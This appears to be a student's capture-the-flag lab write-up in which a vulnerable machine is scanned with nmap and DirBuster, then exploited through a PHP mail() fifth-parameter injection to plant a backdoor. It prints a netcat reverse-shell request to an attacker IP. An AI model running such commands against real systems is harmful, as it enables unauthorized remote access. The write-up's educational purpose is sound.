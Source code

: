 #### Reconassiance
This machine started off similarly with a nmap scan `nmap -sV 162.168.1.115` and then running DirBuster.

![DirBuster](/images/class-projects/final/dirbuster2.png)

This revealed the directory `192.168.1.115/vendor/PATH` which contained Flag1.

#### Mail PHP Remote Code Execution
For the next step, we were actually provided with a script for the exploit, but I did a little bit of research on it to see how it works.

In the PHP mailer being used, there are five paramaters used by the mail function. The `to`, `subject`, and `message` paramaters are required paramaters, and `additional headers` and `additional_parameters` are two optional paramaters. It's the 5th paramater, the option `additional_parameters` that's interesting for exploitation purposes.

By creating a mail message with a carefully crafted 5th parameter an aritrary file could be written onto the server. In this case it was used to write a file that enabled a php command injection attack.

First, netcat was used to start a listener. `nc -lnvp 4444` and then the php command injection was used to open a back door.
`192.198.1.115/backdoor.php?cmd=nc%20192.168.1.90%204444%20-e%20/bin/bash`

That connection immediately revealed Flag2

![Flag2](/images/class-projects/final/flag2.png)
